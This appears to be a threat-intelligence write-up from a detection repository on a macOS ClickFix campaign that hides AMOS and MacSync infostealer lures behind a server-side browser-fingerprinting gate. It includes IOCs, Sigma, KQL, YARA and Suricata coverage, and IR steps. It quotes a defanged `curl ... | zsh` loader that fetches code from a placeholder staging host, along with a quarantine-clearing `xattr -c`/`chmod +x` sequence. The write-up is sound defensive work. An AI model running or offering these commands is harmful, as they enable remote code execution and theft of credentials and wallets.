

# Cloaked ClickFix: a macOS AMOS/MacSync campaign hides behind a server-side browser-fingerprinting gate

## TL;DR

Microsoft Threat Intelligence (published 2026-08-05) tracked a macOS ClickFix operation of 250+ algorithmically named front-end domains that, over several weeks on the *same* infrastructure, moved from openly serving the malicious Terminal command in page HTML to hiding it behind a server-side browser-fingerprinting gate. A ~2.5 KB JavaScript profiler reads `navigator`, `screen`, `window`, WebGL GPU signals, timezone, iframe context, and touch support, adds two analyst-hunting probes (a devtools `toString()` counter and a `canPlayType()` prototype tripwire), tags the bundle `mode:"php"`, and submits it; the server then returns the ClickFix lure only to requests that look like a genuine Mac and returns a blank/decoy page to crawlers, sandboxes, and non-macOS visitors. A qualifying victim copies a GitHub-themed "Download for macOS" page's obfuscated `curl` one-liner into Terminal, which pulls staged scripts from a `/curl/<id>` path and ultimately launches Atomic Stealer (AMOS) or MacSync to harvest Keychain, browser, and cryptocurrency-wallet data. This is a Friday deep-dive because it is a clean before-and-after of a Traffic Distribution System (TDS) cloaking gate bolted onto a live macOS infostealer operation, and because the gate — not the throwaway domains or the well-known payload — is the durable hunting target.

## Attribution and confidence

Confidence: **low** for actor identity, **high** for the technique and infrastructure. Microsoft did not disclose an operator, victim counts, or targeted sectors. The cluster is tracked by behaviour and infrastructure: mass-produced `file<word><word>` domains, shared back-end/staging behaviour, and the fingerprinting gate that fronts the lure. The downstream payloads — Atomic Stealer (AMOS) and MacSync — are commodity macOS infostealers used across many unrelated ClickFix campaigns, so the payload is not an attribution signal here.

| Overlap / alias | Basis | Confidence |
|---|---|---|
| Atomic Stealer (AMOS) | End-of-chain infostealer Microsoft observed through the gate | high (payload family) |
| MacSync | Second infostealer distributed by the wider domain cluster | medium |
| May-2026 macOS ClickFix "fake utilities" cluster | Microsoft ties this activity to the broader Terminal-command-fetches-remote-script shift it documented on 2026-05-06 | medium |
| TDS / exploit-kit cloaking lineage | Browser fingerprinting + server-side victim selection are borrowed wholesale from malvertising/exploit-kit TDS ecosystems | high (technique) |

Genealogy with previous repo cases: this is the first repo case anchored on a **macOS ClickFix** delivery chain and the first on a **server-side browser-fingerprinting TDS gate**. It is distinct from the two prior macOS stealer cases — 2026-05-30 AMOS/OpenClaw (social-engineering an AI agent's skill loader, no code-signing abuse) and 2026-07-25 CrashStealer/Werkbit (genuine Developer ID + notarization) — which both deliver a signed or downloaded artifact; here execution starts from a user-pasted Terminal command, sidestepping quarantine/Gatekeeper/notarization entirely. It differs from the Windows ClickFix-to-ransomware IAB case (2026-07-07 KongTuke/Woodgnat) by platform and by the cloaking gate, and from SourTrade (2026-08-01, browser-assembled Windows malware via malvertising) by using social engineering rather than in-browser assembly.

## Kill chain — summary table

| Stage | MITRE | Detail |
|---|---|---|
| Domain generation + staging | T1583.001, T1608 | 250+ `file<word><word>` front-end domains; shared staging host serving `/curl/<id>` scripts |
| Gated web visit | T1189 | Victim reaches a front-end domain; page returns only a ~2.5 KB JS profiler |
| Fingerprint + victim selection | T1497.001, T1622, T1480 | JS reads navigator/screen/WebGL/timezone/iframe/touch, runs devtools + prototype tripwires, submits `mode:"php"`; server selects who sees the lure |
| ClickFix lure | T1656, T1036.005 | Qualifying Macs get a GitHub-themed "Download for macOS" page with a forged "Verified Publisher" badge and a one-click Copy of an obfuscated `curl` one-liner |
| User execution in Terminal | T1204.004, T1059.004 | Victim pastes and runs the command; `curl` piped to shell, bypassing app-bundle trust checks |
| Staged retrieval + deobfuscation | T1105, T1140, T1027, T1553.001 | `curl` pulls `/curl/<id>` scripts; `base64 -d`/`gunzip`; `xattr -c` + `chmod +x` on the payload |
| Infostealer execution | T1555.001, T1555.003, T1539, T1005 | AMOS/MacSync harvests Keychain, browser stores, cookies, wallet data |
| Exfiltration | T1041 | Archive of collected artifacts sent over HTTP POST to the collection endpoint |



The left lane is the victim's browser-to-Terminal path; the right lane is the operator's domain-generation, TDS gate, decoy branch, and staging/collection infrastructure. The two highest-signal detection anchors sit at the boundaries: the **gate itself** (a self-submitting fingerprint form, hidden fingerprint fields, the `mode:"php"` artifact, and the `file<word><word>` naming pattern — visible to any collector that reads page content without executing JS) and the **Terminal execution** (`curl` piped to a shell retrieving a `/curl/<hex>` path shortly after web browsing).

## Stage-by-stage detail

### Domain generation and staging infrastructure

Microsoft confirmed **more than 250** front-end domains during the tracking window. Most combine the token `file` with dictionary words — `filecopperbasket[.]sbs`, `filevelvettractor[.]sbs`, `fileoceanhammer[.]sbs`, `filemarblegarden[.]sbs` — while some place `file` in the middle or end (`applefilevault[.]com`, `bananafastfile[.]com`, `orangesmartfile[.]com`) and a few omit it (`cloudsendhub[.]com`, `syncdatavault[.]com`). The naming is a hunting *pivot*, not a signature. Behind the disposable front-ends sits shared staging that serves the actual scripts from a `/curl/<id>` path.

```
# domain-family shape (algorithmic, not a strict regex)
file<word><word>[.](com|sbs|online) | <word>file<word>[.]com | <word><word>file[.]com
# staging retrieval path
https://<staging-host>/curl/<hex-id>
```

MITRE: **T1583.001** Acquire Infrastructure: Domains; **T1608** Stage Capabilities.

### The gated web visit

Retrieving a front-end domain no longer returns the lure. It returns a minimal page (~2.5 KB) whose only real content is a JavaScript profiling routine. To a simple crawler the page looks blank or parked; to a JS-capable sandbox that fails the checks it looks like a benign decoy. Because the decision is made server-side per request, an apparently benign response does not mean the domain is safe. MITRE: **T1189** Drive-by Compromise.

### Fingerprint collection and server-side victim selection

The profiler enumerates six objects — `navigator`, `screen`, `window`, `document`, `location`, `console` — capturing `platform` (expected `MacIntel`), user agent, language, vendor, plugins, screen/window dimensions, colour depth, pixel ratio, title, referrer, charset, URL, and host. It then runs a **WebGL** GPU probe to separate real Apple hardware from virtualized/emulated/software-rendered environments, and records `timezoneOffset`, `frame` (is the page inside an iframe), and `touchEvent` (desktop Macs generally report no touch). Two probes specifically target analysts:

```
// devtools / log-capture detector — a function whose toString() increments a counter,
// then written to console; the counter moves if devtools is open or output is serialized.
// prototype tamper tripwire — canPlayType("video/mp4") repurposed: a genuine browser
// answers the codec check natively; some stealth browsers fake it in JS and hit a hooked
// Array.prototype.includes, which sets proto:true and flags the environment as instrumented.
```

The merged fingerprint is tagged `mode:"php"` and submitted back to the server with no user interaction. The server withholds the lure until it evaluates the fingerprint, then returns one of two responses: a bot/crawler/sandbox/VM/unexpected-geo/unexpected-browser gets a blank page, a benign decoy (e.g. a fake "Urban VPN Proxy" extension page or a logistics/freight-forwarding site), or no content; a genuine Mac in the expected context gets the ClickFix lure. This is a **Traffic Distribution System (TDS)** gate: payload delivery is server-side, on-demand, and operator-selected. MITRE: **T1497.001** Virtualization/Sandbox Evasion: System Checks; **T1622** Debugger Evasion; **T1480** Execution Guardrails.

### The ClickFix lure

A qualifying Mac receives a counterfeit "Download for macOS" page that mimics a GitHub-hosted release and shows a forged "Verified Publisher" badge (the GitHub branding is spoofed; there is no GitHub compromise). The page offers one-click Copy of an obfuscated `curl` one-liner and paste-to-Terminal instructions. MITRE: **T1656** Impersonation; **T1036.005** Masquerading: Match Legitimate Name or Location.

### User execution in Terminal

Because execution begins from a user-run Terminal command rather than a downloaded `.app` bundle, the flow avoids parts of the normal macOS trust path — quarantine handling, code-signing evaluation, and notarization checks.

```bash
# representative shape of the pasted one-liner (defanged; exact bytes are obfuscated per-lure)
curl -fsSL "https://<staging-host>/curl/<hex-id>" | zsh
```

MITRE: **T1204.004** User Execution: Malicious Copy and Paste; **T1059.004** Command and Scripting Interpreter: Unix Shell.

### Staged retrieval and deobfuscation

The first command retrieves and runs a remote script from the `/curl/<id>` URL; the chain then progresses through multiple script stages, decoding and decompressing content and clearing the quarantine attribute before making the payload executable.

```bash
# native-tool sequence to watch (order/flags vary):
base64 -d <staged blob> ; gunzip ; xattr -c <payload> ; chmod +x <payload> ; <payload> &
```

MITRE: **T1105** Ingress Tool Transfer; **T1140** Deobfuscate/Decode Files or Information; **T1027** Obfuscated Files or Information; **T1553.001** Subvert Trust Controls: Gatekeeper Bypass.

### Infostealer execution and exfiltration

The chain ultimately downloads and launches Atomic Stealer (AMOS) — or MacSync from the wider cluster — which harvests login Keychain items, browser credential/cookie stores, authentication data, SSH keys, and cryptocurrency-wallet files, stages them into an archive, and exfiltrates over HTTP POST. MITRE: **T1555.001** Credentials from Password Stores: Keychain; **T1555.003** Credentials from Web Browsers; **T1539** Steal Web Session Cookie; **T1005** Data from Local System; **T1041** Exfiltration Over C2 Channel.

## Detection strategy

### Telemetry that matters

- **macOS process telemetry** (Microsoft Defender for Endpoint on macOS `DeviceProcessEvents`; ESF/`EndpointSecurity`; osquery `process_events`): parent-child chains where a browser or `Terminal.app` spawns `curl`, `zsh`/`sh`, `base64`, `gunzip`, `xattr`, `chmod`, `osascript`, `security`.
- **macOS network telemetry** (`DeviceNetworkEvents`; web-proxy/DNS logs): connections to `file<word><word>` domains and requests to `/curl/<hex>` staging paths; outbound HTTP POST shortly after collection.
- **Web content telemetry** (crawler/URL-inspection that reads page bodies *without* executing JS): the gate's self-submitting fingerprint form, hidden fingerprint fields, the `mode:"php"` artifact, and the ~2.5 KB profiler body.
- **Credential-store access**: reads of `login.keychain-db`, browser credential databases, SSH keys, and wallet directories.

### Detection coverage

| Engine | File | Logic |
|---|---|---|
| Sigma | sigma/01_macos_terminal_curl_pipe_shell.yml | Browser/Terminal-parented `curl` retrieving `/curl/` staging path piped to a Unix shell |
| Sigma | sigma/02_macos_clickfix_native_tool_sequence.yml | ClickFix native-tool abuse: `xattr -c` / `base64 -d` / `chmod +x` on a payload path under a user-writable dir |
| Sigma | sigma/03_macos_infostealer_keychain_copy.yml | Non-Apple process copying/reading `login.keychain-db` or a browser credential store |
| KQL | kql/k1_macos_curl_pipe_shell.kql | `DeviceProcessEvents` (macOS): `curl` + `/curl/` path piped into `zsh`/`sh`/`bash` |
| KQL | kql/k2_macos_clickfix_domains_network.kql | `DeviceNetworkEvents` (macOS): egress to the IOC domains and `/curl/<id>` paths |
| KQL | kql/k3_macos_osascript_password_and_keychain.kql | `DeviceProcessEvents` (macOS): `osascript` password prompt or `security find-generic-password` / Keychain copy |
| YARA | yara/clickfix_macos_tds_gate.yar | HTML/JS of the fingerprinting gate (`mode:"php"`, `canPlayType` tripwire, `toString` counter, WebGL/touch/timezone probes) and the lure page (Verified Publisher + `curl` + clipboard write) |
| Suricata | suricata/clickfix_macos_tds.rules | `/curl/<hex>` staging GET, `mode=php` fingerprint POST, DNS/TLS-SNI for IOC domains, decoy/lure request shape |

Placeholders (`<add_known_...>`) in the queries are intentional tuning hooks for site-specific known-good domains; the repo validator counts them as warnings, not errors. Because most of the chain rides HTTPS, the Suricata coverage is anchored on DNS and TLS SNI plus any cleartext staging span; the rule header documents this.

### Threat hunting hypotheses

- **H1 (hunt the gate, PEAK)** — `hunts/peak_h1_hunt_the_fingerprint_gate.md`: newly seen low-reputation domains whose page body contains a self-submitting fingerprint form, hidden fingerprint fields, the `mode:"php"` artifact, or the `file<word><word>` naming shape. Correlate several signals — no single one is malicious on its own.
- **H2 (browse-then-Terminal, PEAK)** — `hunts/peak_h2_browse_then_terminal_curl.md`: web browsing immediately followed by `Terminal.app`/shell spawning `curl` piped to a shell, especially retrieving a `/curl/<hex>` path.
- **H3 (macOS collection + exfil, PEAK)** — `hunts/peak_h3_keychain_collect_exfil.md`: non-Apple process access to `login.keychain-db`/browser stores/wallets, followed by archive creation and outbound HTTP POST.

## Incident response playbook

### First 60 minutes (triage)

1. Identify the endpoint(s): pivot on `DeviceNetworkEvents` hits to the IOC domains or `/curl/<id>` paths, and on `DeviceProcessEvents` where a browser/Terminal parented `curl | zsh`.
2. Confirm execution vs. mere visit: a network hit to a front-end domain alone may be a gated/decoy response; a `curl`-to-shell process event is confirmed execution.
3. Snapshot volatile state before killing anything: running processes, `launchctl list`, open network connections, clipboard contents.
4. Assume credential compromise if AMOS/MacSync ran: the login Keychain, browser cookies/passwords, SSH keys, and wallet files are all in scope.
5. Isolate the host from the network; do not simply reset passwords from the compromised machine.

### Artifacts to collect

| Artifact | Path | Tool | Why |
|---|---|---|---|
| Shell history | `~/.zsh_history`, `~/.bash_history` | file copy | Recovers the pasted `curl` one-liner and staged commands |
| Unified log (process/exec) | live system | `log collect` / `log show --predicate` | Reconstructs the `curl`->shell->`xattr`/`chmod`->payload chain |
| Quarantine + downloads | `~/Downloads`, `~/Library/Preferences/com.apple.LaunchServices.QuarantineEventsV2` | file copy / `sqlite3` | Distinguishes ClickFix (no quarantine) from a downloaded bundle |
| Persistence | `~/Library/LaunchAgents`, `/Library/LaunchDaemons` | `launchctl`, file copy | Any AMOS/MacSync persistence label |
| Keychain + browser stores | `~/Library/Keychains/login.keychain-db`, browser profile dirs | file copy (offline) | Confirms credential-theft scope |
| Network capture | egress | pcap / proxy logs | `/curl/<id>` retrieval and HTTP POST exfil |

### IR queries and commands

```bash
# macOS: find the pasted loader in shell history
grep -nE 'curl .*(/curl/|\| *(z|ba)?sh)' ~/.zsh_history ~/.bash_history 2>/dev/null

# reconstruct the exec chain from the unified log (last 24h)
log show --last 24h --predicate 'process == "curl" OR process == "xattr" OR process == "osascript"' --info 2>/dev/null | head -n 200

# enumerate persistence
launchctl list | grep -v com.apple ; ls -la ~/Library/LaunchAgents /Library/LaunchDaemons 2>/dev/null
```

```kql
// Defender XDR: confirmed ClickFix execution on macOS in the last 7 days
DeviceProcessEvents
| where Timestamp > ago(7d)
| where InitiatingProcessFileName in~ ("Terminal","zsh","bash","sh") or FileName =~ "curl"
| where ProcessCommandLine has "/curl/" or ProcessCommandLine has_any ("| zsh","|zsh","| sh","|sh")
| project Timestamp, DeviceName, AccountName, InitiatingProcessFileName, FileName, ProcessCommandLine
```

### Containment, eradication, recovery

Enumerate and remove persistence and running payload processes **before** rotating credentials — rotating from the compromised host risks handing new secrets to a resident stealer. Exit criteria: no LaunchAgent/LaunchDaemon tied to the payload, no beaconing to staging/collection hosts, and the pasted loader confirmed removed from history. **Recovery validation**: rotate every credential the stealer could reach (Keychain items, browser-saved passwords, SSH keys, wallet seed phrases) from a *clean* device, revoke active web sessions/cookies, and re-image if payload provenance cannot be fully accounted for. What NOT to do: do not treat a benign/decoy response from a flagged domain as proof the domain is safe, and do not rely on blocklisting individual front-end domains — block on the shared staging infrastructure and `/curl/` paths instead.

### Recovery validation

Confirm from a clean host that rotated credentials are live and old sessions are revoked; verify the endpoint shows no residual LaunchAgents, no `curl`-to-shell re-execution, and no egress to the IOC domains or staging paths for a full monitoring window before returning it to service.

## IOCs

Summary (full list in `iocs.csv`). Indicators decay: the front-end domains are disposable and rotate; prioritise the shared staging behaviour, the `/curl/<id>` path, and the gate artifacts over any single domain.

| Type | Value | Context | Confidence | Source |
|---|---|---|---|---|
| domain | filecopperbasket[.]sbs | ClickFix front-end (fingerprinting gate) | high | Microsoft TI |
| domain | filevelvettractor[.]sbs | ClickFix front-end | high | Microsoft TI |
| domain | fileoceanhammer[.]sbs | ClickFix front-end | high | Microsoft TI |
| domain | filemarblegarden[.]sbs | ClickFix front-end | high | Microsoft TI |
| domain | apricotfilepoint[.]com | ClickFix front-end (served both lure and Urban VPN decoy) | high | Microsoft TI |
| domain | applefilevault[.]com | ClickFix front-end | high | Microsoft TI |
| domain | lemonfilewave[.]com | ClickFix front-end (in Microsoft hunting query) | high | Microsoft TI |
| domain | limefilescope[.]com | ClickFix front-end | high | Microsoft TI |
| domain | mangocloudfile[.]com | ClickFix front-end | high | Microsoft TI |
| domain | cloudsendhub[.]com | ClickFix front-end (no `file` token) | high | Microsoft TI |
| domain | syncdatavault[.]com | ClickFix front-end (no `file` token) | high | Microsoft TI |
| url | /curl/<hex-id> | Staging path retrieving the next-stage script | high | Microsoft TI |
| string | mode:"php" | Fingerprint-submission tag in the gate JS | high | Microsoft TI |
| string | canPlayType("video/mp4") | Prototype-tamper tripwire in the gate JS | medium | Microsoft TI |
| note | Payloads | AMOS (Atomic Stealer) and MacSync delivered downstream; no payload hashes published in this report | high | Microsoft TI |

No CVE is in scope: this is a social-engineering + TDS-cloaking operation, not exploitation of a software vulnerability, so no `kev.md` is generated for this case. Apple shipped a Terminal paste-warning mitigation in macOS 26.4 (documented 2026-08-03) that directly addresses the ClickFix delivery step.

## Secondary findings

- **The gate is a better hunting target than the payload.** Delivery is restricted to qualified visitors, so the downstream AMOS/MacSync binaries are seen rarely and rotate; the gate logic is served in the clear to any collector that inspects page bodies without executing JS. Hunt self-submitting fingerprint forms, hidden fingerprint fields, the `mode:"php"` artifact, and the `file<word><word>` naming shape — and correlate several signals, because the same primitives appear in legitimate anti-bot systems.
- **Cloaking hides infrastructure, not the attack.** The TDS gate is a measure against automated analysis: it conceals the domains from crawlers and sandboxes, but the lure served to a qualifying Mac and the requirement that the user paste-and-run the command are unchanged. Refusing that Terminal step is exactly as protective as before the gate existed.
- **ClickFix is the trust-path bypass.** Because the chain starts from a user-run Terminal command rather than a downloaded `.app`, it avoids quarantine, Gatekeeper, and notarization — the very controls that catch a downloaded bundle. Native-tool telemetry (`curl | zsh`, `base64 -d`, `xattr -c`, `chmod +x`, `osascript`) is disproportionately valuable on macOS for exactly this reason.

## Pedagogical anchors

- A **Traffic Distribution System** turns "is this domain malicious?" into a per-request, environment-conditioned question; a benign or decoy response is not evidence of safety, so cluster on infrastructure behaviour rather than on a single fetch.
- **Anti-analysis is now anti-analyst**: the gate specifically probes for open devtools (`toString` counter) and instrumented/stealth browsers (`canPlayType` prototype tripwire). Your analysis environment is part of the fingerprint — headless, framed, wrong-timezone, or touch-capable contexts get filtered out.
- On macOS, **user-initiated execution beats code-signing**: ClickFix sidesteps the entire download-trust path, so the durable detections live in native-tool process chains, not in signature/notarization state.
- **Algorithmically generated domain families** (`file<word><word>`) are a hunting pivot, not a signature — combine the pattern with shared staging (`/curl/<id>`) and gate artifacts before alerting, to keep false positives low.
- Blocklisting throwaway front-ends is a treadmill; **block on the shared back end** (staging hosts, `/curl/` paths) to break many disposable domains at once.

## What's in this folder

| File | Purpose | Link |
|---|---|---|
| README.md | This write-up. | [README.md](./README.md) |
| kill_chain.svg | Two-lane kill chain: victim browser-to-Terminal path vs. operator domain-gen/TDS/staging infrastructure. | [kill_chain.svg](./kill_chain.svg) |
| sigma/01_macos_terminal_curl_pipe_shell.yml | Sigma: browser/Terminal-parented `curl` on a `/curl/` path piped to a shell. | [01](./sigma/01_macos_terminal_curl_pipe_shell.yml) |
| sigma/02_macos_clickfix_native_tool_sequence.yml | Sigma: ClickFix native-tool abuse (`xattr -c`/`base64 -d`/`chmod +x`). | [02](./sigma/02_macos_clickfix_native_tool_sequence.yml) |
| sigma/03_macos_infostealer_keychain_copy.yml | Sigma: non-Apple process copying/reading `login.keychain-db` or browser stores. | [03](./sigma/03_macos_infostealer_keychain_copy.yml) |
| kql/k1_macos_curl_pipe_shell.kql | KQL: macOS `curl` + `/curl/` path piped into a shell. | [k1](./kql/k1_macos_curl_pipe_shell.kql) |
| kql/k2_macos_clickfix_domains_network.kql | KQL: macOS egress to IOC domains and `/curl/<id>` paths. | [k2](./kql/k2_macos_clickfix_domains_network.kql) |
| kql/k3_macos_osascript_password_and_keychain.kql | KQL: macOS `osascript` password prompt / Keychain access. | [k3](./kql/k3_macos_osascript_password_and_keychain.kql) |
| yara/clickfix_macos_tds_gate.yar | YARA: fingerprinting-gate JS and ClickFix lure HTML. | [yara](./yara/clickfix_macos_tds_gate.yar) |
| suricata/clickfix_macos_tds.rules | Suricata: `/curl/` staging, `mode=php` POST, DNS/TLS-SNI for IOC domains. | [rules](./suricata/clickfix_macos_tds.rules) |
| hunts/peak_h1_hunt_the_fingerprint_gate.md | PEAK hunt: find the gate by page-body artifacts. | [h1](./hunts/peak_h1_hunt_the_fingerprint_gate.md) |
| hunts/peak_h2_browse_then_terminal_curl.md | PEAK hunt: browse-then-Terminal `curl` chain. | [h2](./hunts/peak_h2_browse_then_terminal_curl.md) |
| hunts/peak_h3_keychain_collect_exfil.md | PEAK hunt: macOS credential collection + HTTP POST exfil. | [h3](./hunts/peak_h3_keychain_collect_exfil.md) |
| iocs.csv | Machine-readable indicators (domains, staging path, gate artifacts). | [iocs.csv](./iocs.csv) |

## Sources

- [From open lures to cloaked gates: How a macOS ClickFix campaign learned to hide (Microsoft Security Blog, 2026-08-05)](https://www.microsoft.com/en-us/security/blog/2026/08/05/macos-clickfix-campaign-learned-hide/)
- [Over 250 ClickFix Domains Use Browser Fingerprinting to Hide macOS Malware Lures (The Hacker News, 2026-08-05)](https://thehackernews.com/2026/08/over-250-clickfix-domains-use-browser.html)
- [ClickFix Domains Hide macOS Malware With Fingerprinting (eSecurityPlanet, 2026-08)](https://www.esecurityplanet.com/threats/news-clickfix-domains-browser-fingerprinting-macos-malware/)
- [250+ macOS ClickFix Domains Use Browser Fingerprinting to Hide Atomic Stealer Attacks (Cyber Security News, 2026-08)](https://cybersecuritynews.com/158536-2250-macos-clickfix-domains/)
- [250+ Fake Download Domains Target Mac Users With AMOS and MacSync Infostealers (GBHackers, 2026-08)](https://gbhackers.com/250-fake-download-domains/)
- [ClickFix campaign uses fake macOS utilities lures to deliver infostealers (Microsoft Security Blog, 2026-05-06)](https://www.microsoft.com/en-us/security/blog/2026/05/06/clickfix-campaign-uses-fake-macos-utilities-lures-deliver-infostealers/)
- [Apple: About the Terminal paste-warning protection (support.apple.com, HT127377)](https://support.apple.com/en-us/127377)
